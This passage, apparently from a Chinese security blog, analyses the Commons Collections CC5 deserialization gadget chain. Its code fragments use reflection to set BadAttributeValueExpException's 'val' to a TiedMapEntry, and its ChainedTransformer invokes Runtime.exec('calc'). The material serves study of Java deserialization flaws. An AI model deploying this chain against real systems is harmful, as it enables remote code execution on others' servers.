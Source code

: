 所以可以在实例化该类后通过反射对val参数进行控制,对应的poc中代码

```
TiedMapEntry tiedMap = new TiedMapEntry(outmap,"DawnT0wn");
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
Field field = BadAttributeValueExpException.class.getDeclaredField("val");
field.setAccessible(true);
field.set(badAttributeValueExpException,tiedMap);
```

跟进getValue方法

```
public Object getValue() {
    return map.get(key);
}
```

再看构造器

```
public TiedMapEntry(Map map, Object key) {
    super();
    this.map = map;
    this.key = key;
}
```

map和key都是可控的,那这里就可以回到我们之前熟悉的LazyMap的中get方法来了

```
public Object get(Object key) {
    // create value for key if key is not currently in the map
    if (map.containsKey(key) == false) {
        Object value = factory.transform(key);
        map.put(key, value);
        return value;
    }
    return map.get(key);
}
```

在这里还遇到了另外一个问题,就是我断点一路跟过来并没有进入if,我在前面也看了,并没有和我Key相对应的映射关系,这里应该返回的值是false才对啊,之前这里有key值一样能进入if

![image-20220126120254955](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220126120254955.png)

但是在网上看到师傅也出现了这样的问题,把前面断点取消,直接在if中打断点就可以进入,而且重新进行断点调试的时候也没有弹计算器了,也就不存在刚才的问题了,这可能是IDEA调试机制的问题吧,不过没什么影响,能成功说明程序能够执行到这里

继续从get方法出发

![image-20220126120550754](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220126120550754.png)

这下就再熟悉不过了调用transform方法,直接就和CC1一样,对应代码

```
Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};

ChainedTransformer chain = new ChainedTransformer(transformers);
```
